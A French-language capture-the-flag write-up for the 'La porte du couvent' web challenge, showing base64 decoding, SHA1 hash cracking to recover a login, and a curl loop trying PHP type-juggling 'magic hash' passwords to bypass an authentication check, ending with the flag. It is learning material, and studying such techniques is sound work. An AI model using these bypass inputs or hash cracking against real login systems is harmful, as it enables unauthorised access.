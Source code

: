 * * *
# La porte du couvent
> (Web, 400 points )
---
## Challenge :
> Dans leur élan pour secourir les dernières victimes du célèbre Gayeman DJAKPATAGLO, les cyber-amazones font face à la porte d'un couvent impénétrable. http://hackerlab.bj:8001/web03/web03_frjofjzefzf.html

En accédant au lien du challenge, on se voit présenter un formulaire.

<img src="Images/porte-couvent-1.png">

On remarque que, peu importe ce qu'on entre dans le champ  ```username``` et ```password```, on est redirigé sur une **URL** nous présentant une chaîne encodée en base64: **dm91cyBuJ8OqdGVzIHBsdXMgbG9pbiBkdSBsb2dpbjogZTc3OTFlY2U5ZGE1YTZlM2YwYWE2YmE3NzUzNmZiYzZiNzc4MDg5NQ==** . Pour décoder cette chaîne, il suffira d'exécuter la commande ci-dessous :
```console 
root@Y3HW3_Hack3r:~/HackerLab2019# base64 -d <<< "dm91cyBuJ8OqdGVzIHBsdXMgbG9pbiBkdSBsb2dpbjogZTc3OTFlY2U5ZGE1YTZlM2YwYWE2YmE3NzUzNmZiYzZiNzc4MDg5NQ=="
vous n'êtes plus loin du login: e7791ece9da5a6e3f0aa6ba77536fbc6b7780895
```
La chaîne décodée est : **vous n'êtes plus loin du login: e7791ece9da5a6e3f0aa6ba77536fbc6b7780895**. Ce message nous présente à la fin un hash. L'objectif serait maintenant de chercher à avoir le contenu du hash. Pour le faire, nous utiliserons un célèbre outil ```buster``` (https://github.com/s0md3v/Hash-Buster) , qui pourra nous aider à obtenir le contenu du ```hash```. 
```console 
root@Y3HW3_Hack3r:~/HackerLab2019# buster -s "e7791ece9da5a6e3f0aa6ba77536fbc6b7780895"
_  _ ____ ____ _  _    ___  _  _ ____ ___ ____ ____
|__| |__| [__  |__|    |__] |  | [__   |  |___ |__/
|  | |  | ___] |  |    |__] |__| ___]  |  |___ |  \  v3.0

[!] Hash function : SHA1
amazone

```
En un rien de temps, nous obtenons la chaîne se retrouvant derrière le ```hash``` : **amazone**.  
Cette chaîne obtenue représente donc notre ```login``` pour le formulaire de la page http://hackerlab.bj:8001/web03/web03_frjofjzefzf.html. L'objectif suivant serait maintenant de retrouver le ```mot de passe``` qui va avec ce ```login```. Pour l'obtenir, nous avions testé un **bruteforce** par **"POST"** sur le formulaire avec le célèbre outil ```hydra```, mais sans succès. Nous avions aussi essayé une **injection SQL** pour bypasser l'authenfication, mais sans succès aussi. En fin de compte, nous avions donc cherché à avoir un coup de main en cliquant sur le ```hint``` du challenge. L'indice dévoilé est en effet : **type juggling + md5**. Des recherches effectuées à partir de cet indice nous amène sur cette page https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Type%20Juggling. Cette page parle du **PHP Juggling type and magic hashes**. Méthode pouvant permettre de ```bypasser des comparaisons en php```. En fouillant un peu la page, on retrouve quelques extraits de **chaînes de caractères magiques** pouvant bypasser des comparaisons php utilisant ```==```.

| Hash | “Magic” Number / String    | Magic Hash                                    | Found By      |
| ---- | -------------------------- |:---------------------------------------------:| -------------:|
| MD5  | 240610708                  | 0e462097431906509019562988736854              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| SHA1 | 10932435112                | 0e07766915004133176347055865026311692244      | Independently found by Michael A. Cleverly & Michele Spagnuolo & Rogdham |
| SHA-224 | 10885164793773          | 0e281250946775200129471613219196999537878926740638594636 | [@TihanyiNorbert](https://twitter.com/TihanyiNorbert/status/1138075224010833921) |
| SHA-256 | 34250003024812          | 0e46289032038065916139621039085883773413820991920706299695051332 | [@TihanyiNorbert](https://twitter.com/TihanyiNorbert/status/1148586399207178241) |
| SHA-256 | TyNOQHUS                | 0e66298694359207596086558843543959518835691168370379069085300385 | [@Chick3nman512](https://twitter.com/Chick3nman512/status/1150137800324526083)


Nous allons donc essayer ses différents **“Magic” Number / String** comme ```password``` pour voir le résultat.
```console 
root@Y3HW3_Hack3r:~/HackerLab2019# for i in {"240610708","10932435112","10885164793773","34250003024812","34250003024812"}; do curl -X POST http://hackerlab.bj:8001/web03/loginform.php --data "username=amazone&password=$i"; echo " -- "; done
Flag: CTF_NOMDEHACKERCEQUETUESFORT -- 
Essaie encore. Une cyber-amazone n'abandonne jamais! -- 
Essaie encore. Une cyber-amazone n'abandonne jamais! -- 
Essaie encore. Une cyber-amazone n'abandonne jamais! -- 
Essaie encore. Une cyber-amazone n'abandonne jamais! -- 
```
<!-- En testant le premier **“Magic” Number / String** ( **240610708** ) comme ```password```, on obtient notre ```flag```. -->

```Flag ```: **CTF_NOMDEHACKERCEQUETUESFORT**
